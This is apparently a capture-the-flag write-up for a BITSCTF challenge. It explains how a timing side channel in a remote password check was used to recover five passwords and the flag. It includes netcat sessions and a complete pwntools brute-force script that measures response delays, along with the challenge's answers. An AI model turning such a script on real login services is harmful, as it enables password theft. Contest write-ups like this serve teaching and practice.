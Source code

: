 # MogamBro's Certainty Principle - PWN

## Description

MogamBro's Certainty Principle states that the more accurate you are the more delay you'll face. Δt • Δp ≥ frustration / ram_space; where p is precission and t is time.

Pamdi

nc 20.244.33.146 4445

## Solution

There are no files attached to this challenge and when we netcat into the given address and post we are presented with the prompt `Enter Password:`

```bash
┌──(kali㉿kali)-[~/Desktop/mogam]
└─$ nc 20.244.33.146 4445
Enter password: asd
Incorrect password
Time taken:  8.464232490114633e-05
```

With some guessing when entering an `s` as the first character the `Time taken` changes to a value a few orders of mangnitude greater than the incorrect guess time taken.

```bash
┌──(kali㉿kali)-[~/Desktop/mogam]
└─$ nc 20.244.33.146 4445
Enter password: s
Incorrect password
Time taken:  0.100014009497734
```

We can guess that as we add more correct characters the larger the time taken will grow. Throwing together a quick python script we can brute force the password by keeping track of the difference in time taken and spit out the password when we stop receving `Incorrect Password` messages.

After letting the script run the password that is found is `sloppytoppywithatwist` which gives us this prompt:

```bash
┌──(kali㉿kali)-[~/Desktop/mogam]
└─$ nc 20.244.33.146 4445
Enter password: sloppytoppywithatwist
Congratulations! You have unlocked the door to level 2!
Enter password: 
```

So there's a second password.... This challenge is becoming less fun and more annoying. After watching the console and looking at the time deltas the precision changed and we have to modify the threshold of a correct guess time taken.

Do this 4 more times for a total of 5 password... It's stupid and it takes a few hours just to run and guess the password.

The final version of the script is below:

```python
from pwn import *
    
def range_char(start, stop):
    return (chr(n) for n in range(ord(start), ord(stop) + 1))

context.log_level = 'warn'

password = ''

totalTime = 0

looping = True

while looping:
    for c in range_char('a', 'z'):
        r = remote('20.244.33.146', 4445)

#        r.sendline(b'sloppytoppywithatwist')
#        r.recvline() #this is dumb

#        r.sendline(b'gingerdangerhermoinegranger')
#        r.recvline() #this is extra dumb

#        r.sendline(b'hickerydickerydockskibididobdobpop')
#        r.recvline() #this is extra extra dumb

#        r.sendline(b'snickersnortsupersecureshortshakingsafarisadistic')
#        r.recvline() #this is getting ridiculous

#        r.sendline(b'boompopwhizzleskizzleraptrapmeowbarkhowlbuzzdrumburpfartpoop')
#        r.recvline() # This challenge is pretty annoying

        r.sendline(str(password + c))

        msg = str(r.recvline())

        if 'Incorrect' in msg:

            time = float(str(r.recvline()).split(':')[1].strip().replace('\\n\'', ''))
            
            deltaTime = time - totalTime
            
            print(f'Time: {time}, Delta {deltaTime}, char: {c}' )
            
            if deltaTime > .001:
                password += c
                print(f'{password}')
                totalTime = time
                r.close()
                break
                
        else:
            password += c
            print(f'Password: {password}')
            looping = False
            r.close()
            break
```

Entering the 5 passwords manually give the following output and flag.

```bash
┌──(kali㉿kali)-[~/Desktop/mogam]
└─$ nc 20.244.33.146 4445
Enter password: sloppytoppywithatwist
Congratulations! You have unlocked the door to level 2!
Enter password: gingerdangerhermoinegranger
Congratulations! You have unlocked the door to level 3!
Enter password: hickerydickerydockskibididobdobpop
Congratulations! You have unlocked the door to level 4!
Enter password: snickersnortsupersecureshortshakingsafarisadistic
Congratulations! You have unlocked the door to level 5!
Enter password: boompopwhizzleskizzleraptrapmeowbarkhowlbuzzdrumburpfartpoop
Congratulations! You have unlocked all the doors. THe flag is BITSCTF{c0n6r47ul4710n5_0n_7h3_5ucc355ful_3n7ry}
```

Flag: `BITSCTF{c0n6r47ul4710n5_0n_7h3_5ucc355ful_3n7ry}`
